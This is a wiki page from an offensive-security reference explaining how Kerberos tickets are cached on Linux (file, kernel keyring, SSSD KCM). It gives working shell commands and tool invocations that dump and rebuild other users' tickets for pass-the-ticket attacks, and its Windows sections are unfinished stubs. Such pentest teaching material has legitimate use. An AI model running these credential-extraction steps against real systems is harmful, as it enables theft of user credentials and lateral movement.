 ```yaml
---
authors: Hakumarachi, ShutdownRepo
category: ad
---
```


# 🛠️ Cached Kerberos tickets

## Theory

Kerberos tickets can be cached on systems to allow for faster authentication without requiring users to re-enter credentials. Understanding how these tickets are stored is crucial for both defensive and offensive operations.

### Storage Methods

:::tabs

== UNIX-like

On Linux and other UNIX-like systems, tickets can be stored in 3 different ways:

| Storage     | Description                                                                                                                               |
|-------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| **FILE**    | Stores tickets in files, typically under `/tmp` directory, in the format `krb5cc_%{uid}`                                                   |
| **KEYRING** | Stores tickets in a dedicated kernel keyring space, only accessible to the ticket owner                                                     | 
| **KCM**     | Stores tickets in an LDAP-like database, typically at `/var/lib/sss/secrets/secrets.ldb` (default when using SSSD)                        |

The storage method is configured via the `default_ccache_name` parameter in `/etc/krb5.conf`, which is readable by all users.

> [!NOTE]
> This configuration can be overridden by files in `/etc/krb5.conf.d/`. When using SSSD, the value is typically set in `/etc/krb5.conf.d/kcm_default_ccache`

== Windows 🛠️

On Windows systems, Kerberos tickets are stored in memory by the Local Security Authority Subsystem Service (LSASS) process.

// TODO: Add more details

:::

## Practice

### From UNIX-like systems

:::tabs

== FILE Storage

Tickets are stored as files in the configured directory (default: `/tmp`). These files can be directly used for [Pass-the-Ticket](../../kerberos/ptt.md) attacks.

== KEYRING Storage

> [!NOTE]
> While root cannot directly read other users' keyring content, they can still access tickets by using `su - $user`

The `keyctl` utility (commonly pre-installed) can be used to read keyring content:

```bash
# Get persistent keyring address
keyctl get_persistent @u

# Show keyring content
keyctl show 30711432
```

It will display the content of the keyring in a readable format.

```
Keyring
  30711432 ---lswrv      0 65534  keyring: _persistent.0
 127492740 --alswrv      0     0   \_ keyring: _krb
 556713767 --alswrv      0     0       \_ user: krb_ccache:primary
1002684101 --alswrv      0     0       \_ keyring: 0
 110355059 --alswrv      0     0           \_ user: __krb5_princ__
 575224320 --als-rv      0     0           \_ big_key: krb5_ccache_conf_data/pa_type/krbtgt\/LAB.LOCAL\@LAB.LOCAL@X-CACHECONF:
 161110247 --als-rv      0     0           \_ big_key: krbtgt/LAB.LOCAL@LAB.LOCAL
 760223933 --alswrv      0     0           \_ user: __krb5_time_offsets__
```

To reconstruct a Kerberos ticket, you need:
1. The `__krb5_princ__` value (in the example above, it's `110355059`)
2. The service key value (the `big_key` value. In the example above, it's `161110247`)

```bash
# Get principal value
keyctl print $PRINCIPALS_ADDRESS

# Get service key
keyctl print $KEY_ADDRESS

The result will be an hexadecimal string, that can be appended to the ticket header to reconstruct the full ticket.

# Reconstruct ticket
HEADER='0504000c00010008ffffffff00000000'
PRINCIPALS=$(keyctl print $PRINCIPALS_ADDRESS | awk -F : '{print $3}')
KEY=$(keyctl print $KEY_ADDRESS | awk -F : '{print $3}')
ticket=$HEADER$PRINCIPALS$KEY

# Save to file
echo "$ticket" | xxd -r -p > ticket.ccache
```

> [!TIP]
> [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can automate this process:
> ```bash
> python3 ccacheExtractor.py keyring --principals $PRINCIPALS --key $KEY
> ```

A domain joined machine can cache lots of tickets from different users. It would be tedious to list them all manually.
To list all available tickets, the `/proc/key-users` file can be used. It's readable by all users and contains the list of all users with persistent keyrings.

```bash
# List all tickets
for uid in $(awk '{print$1}' /proc/key-users | tr -d :); do
    res=$(KRB5CCNAME=KEYRING:persistent:$uid klist 2>&1)
    if [ $? -eq 0 ]; then
        echo -e "\n=== UID $uid ==="
        echo "$res"
    fi
done

# Use a specific ticket
KRB5CCNAME=KEYRING:persistent:$UID
```

> [!SUCCESS]
> [keyringCCacheDumper](https://github.com/Hakumarachi/keyringCCacheDumper) can automatically extract all tickets.

== KCM Storage

KCM stores tickets in an LDB database file, typically only readable by root. [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can be used to extract tickets:

```bash
# Extract all tickets from LDB database
python3 ccacheExtractor.py kcm ./secrets.ldb
```

Extracted tickets can then be used with [Pass-the-cache](../../kerberos/ptc.md) or [Pass-the-tickets](../../kerberos/ptt.md) depending on the ticket type.

### From Windows

// TODO: Add more details

:::